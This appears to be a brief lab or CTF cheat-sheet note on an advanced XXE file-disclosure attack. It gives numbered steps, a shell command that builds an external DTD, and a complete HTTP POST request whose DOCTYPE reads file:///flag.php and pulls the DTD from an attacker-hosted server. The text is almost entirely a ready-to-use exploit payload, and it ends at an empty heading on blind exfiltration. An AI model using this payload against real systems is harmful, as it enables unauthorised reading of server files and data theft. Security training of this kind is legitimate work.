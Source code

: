 
# advanced File Disclosure

Steps:
1. set xml payload
2. set the file xxe.dtd
3. set the email to &joined
4. set a server http
5. send the payload and change the email

file xxe.dtd

```bash
 echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

```
Request

```bash 
POST /submitDetails.php HTTP/1.1
Host: 10.129.207.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 327
Origin: http://10.129.207.224
Connection: keep-alive
Referer: http://10.129.207.224/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.14.57:8000/xxe.dtd">
  %xxe;
]>
<root>
<name>gfcgv</name>
<tel></tel>
<email>&joined;</email>
<message>sdv</message>
</root>


```


# Blind Data Exfiltrate

